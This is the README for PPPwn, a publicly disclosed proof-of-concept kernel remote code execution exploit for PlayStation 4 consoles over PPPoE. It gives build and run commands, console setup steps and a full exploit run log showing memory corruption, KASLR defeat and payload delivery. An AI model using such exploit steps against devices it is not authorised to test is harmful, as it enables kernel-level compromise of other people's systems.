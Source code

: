 # PPPwn - PlayStation 4 PPPoE RCE
PPPwn is a kernel remote code execution exploit for PlayStation 4 up to FW 11.00. This is a proof-of-concept exploit for [CVE-2006-4304](https://hackerone.com/reports/2177925) that was reported responsibly to PlayStation.

Supported versions are:
- FW 7.00 / 7.01 / 7.02
- FW 7.50 / 7.51 / 7.55
- FW 8.00 / 8.01 / 8.03
- FW 8.50 / 8.52
- FW 9.00
- FW 9.03 / 9.04
- FW 9.50 / 9.51 / 9.60
- FW 10.00 / 10.01
- FW 10.50 / 10.70 / 10.71
- FW 11.00
- more can be added (PRs are welcome)

The exploit only prints `PPPwned` on your PS4 as a proof-of-concept. In order to launch Mira or similar homebrew enablers, the `stage2.bin` payload needs to be adapted.

## Requirements
- A computer with an Ethernet port
  - USB adapter also works
- Ethernet cable
- Linux
  - You can use VirtualBox to create a Linux VM with `Bridged Adapter` as network adapter to use the ethernet port in the VM.
- Python3 and gcc installed

## Usage

On your computer, clone the repository:

```sh
git clone --recursive https://github.com/TheOfficialFloW/PPPwn
```

Change the directory to the cloned repository:

```sh
cd PPPwn
```

Install the requirements:

```sh
sudo pip install -r requirements.txt
```

Compile the payloads:

```sh
make -C stage1 FW=1100 clean && make -C stage1 FW=1100
make -C stage2 FW=1100 clean && make -C stage2 FW=1100
```

For other firmwares, e.g. FW 9.00, pass `FW=900`.

DO NOT RUN the exploit just yet (don't press Enter yet) but prepare this command on your prompt (see `ifconfig` for the correct interface):

```sh
sudo python3 pppwn.py --interface=enp0s3 --fw=1100
```

For other firmwares, e.g. FW 9.00, pass `--fw=900`.

On your PS4:

- Go to `Settings` and then `Network`
- Select `Set Up Internet connection` and choose `Use a LAN Cable`
- Choose `Custom` setup and choose `PPPoE` for `IP Address Settings`
- Enter anything for `PPPoE User ID` and `PPPoE Password`
- Choose `Automatic` for `DNS Settings` and `MTU Settings`
- Choose `Do Not Use` for `Proxy Server`

- Now, simultaneously press the 'X' button on your controller on `Test Internet Connection` and 'Enter' on your keyboard (on the computer you have your Python script ready to run).

ALWAYS wait for the console to show the message "Cannot connect to network: (NW-31274-7)" before trying this PPPOE injection again.

If the exploit fails or the PS4 crashes, you can skip the internet setup and simply click on `Test Internet Connection`. Kill the `pppwn.py` script and run it again on your computer, and then click on `Test Internet Connection` on your PS4: always simultaneously.


If the exploit works, you should see an output similar to below, and you should see `Cannot connect to network.` followed by `PPPwned` printed on your PS4, or the other way around. 

### Example run

```sh
[+] PPPwn - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=enp0s3 fw=1100 stage1=stage1/stage1.bin stage2=stage2/stage2.bin

[+] STAGE 0: Initialization
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 07:ba:be:34:d6:ab
[+] AC cookie length: 0x4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::2d9:d1ff:febc:83e4
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0fdf:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff884de578
[+] kaslr_offset: 0x3ffc000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 97:df:ea:86:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634be9200
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!
```

## Notes for Mac Apple Silicon Users (arm64 / aarch64)
The code will not compile on Apple Silicon and requires AMD64 architecture.
There is a workaround using docker which will build the bin files required.
Clone this repository to your mac system, then from the repo folder run `./build-macarm.sh`. This will build the binaries for PS4 FW 1100 and place the necessary files into the correct folders. To build the binaries for a different version, i.e. 900, run the command as such: `./build-macarm.sh 900`. Once built, copy this folder structure into the Linux VM and execute as instructed above.
This has been tested using VMware Fusion 13.5.1, with the VM Guest as Ubuntu 24.04, and the host machine is MacOS 14.4.1
